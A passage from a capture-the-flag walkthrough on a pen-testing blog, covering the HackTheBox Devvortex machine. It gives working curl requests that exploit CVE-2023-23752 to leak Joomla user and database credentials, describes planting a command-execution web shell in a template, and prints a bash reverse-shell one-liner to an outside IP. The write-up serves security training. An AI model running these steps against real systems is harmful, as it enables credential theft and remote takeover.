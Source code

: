 ![CVE-2023-23752 vulnerability details](/Pen-testing-blog/assets/images/1__YfEsyFHby1gNlTmTrLfgDQ.png "Figure 9 - CVE2023-23752 vulnerability details")

![Vulnerable code returning user IDs](/Pen-testing-blog/assets/images/1__puoUJF2NOo7mH__byICX16w.png "Figure 10 - Vulnerable code returning user IDs")

![code returning DB passwords](/Pen-testing-blog/assets/images/1__YK4MUVD__Y29EzD9sPhPLSQ.png "Figure 11 - Vulnerable code returning DB passwords")

I exploit this vulnerability by issuing two requests to the vulnerable API endpoints via the cURL command, with the first to obtain the users’ login IDs and the second, the users’ backend database passwords. Both outputs were sent as the input to **jq** command to print results in JSON form for readability.

```bash
curl http://dev.devvortex.htb/api/index.php/v1/users?public=true | jq

curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true| jq
```

![Exploit of CVE-2023-23752 successful - user IDs](/Pen-testing-blog/assets/images/1__Tha8rbei865gXmhHZYyazA.png "Figure 12 - Exploit of CVE-2023-23752 successful - returned user IDs")

![Exploit of CVE-2023-23752 successful - user IDs](/Pen-testing-blog/assets/images/1__Tha8rbei865gXmhHZYyazA.png "Figure 13 - Exploit of CVE-2023-23752 successful - returned user IDs")

The exploit was successful and revealed two users — lewis and logan with lewis having elevated access privileges as a super user along with the plaintext password for lewis.

### Logging into the Jooma! administration interface

I used the new credentials to attempt to login into the Jooma! administrator interface as Lewis and was successful.

![Successful login to Joomla administration interface](/Pen-testing-blog/assets/images/1__UxH7PAtkPYwl5GJX9tW1wQ.png "Figure 14 - Successful login to Joomla! administration page")

### Establishing reverse shell connection via template modification

After logging into the administrative page, I create a reverse shell connection from victim machine to my attacking machine via template modification, although creation of a malicious plugin containing payload is also possible.

I use the template **Cassiopeia** and edit the **error.php** script at **<http://dev.devvortex.htb/templates/cassiopeia/error.php>** I use the global variable, **$\_REQUEST**, to pass in the parameter, cmd, that takes a value which the web server will parse as a command for execution. Here, the value passed to the cmd parameter is the command to create a reverse shell via bash script using -i flag for interactive mode.

![Command to create a reverse shell to my machine](/Pen-testing-blog/assets/images/1__LX2qdQ74EdYNCy1Z5oPo3Q.png "Figure 15 - Injection of malicious reverse shell payload into PHP script")

```bash
cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.36/4444 0>%261"
```

In my Kali Linux terminal, I set up my net cat listener to listen for connections on port 4444 to match the reverse shell one line command configuration (although any open port can be used). Upon visiting **error.php** page at the above URL and passing in the malicious command above as the cmd parameter value, I successfully catch a reverse shell in net cat. To make the shell more interactive and enhance its functionality, I stabilize it by using Python pty module to give me a pseudo-TTY after which I generate a bash shell on top of the reverse shell connection.

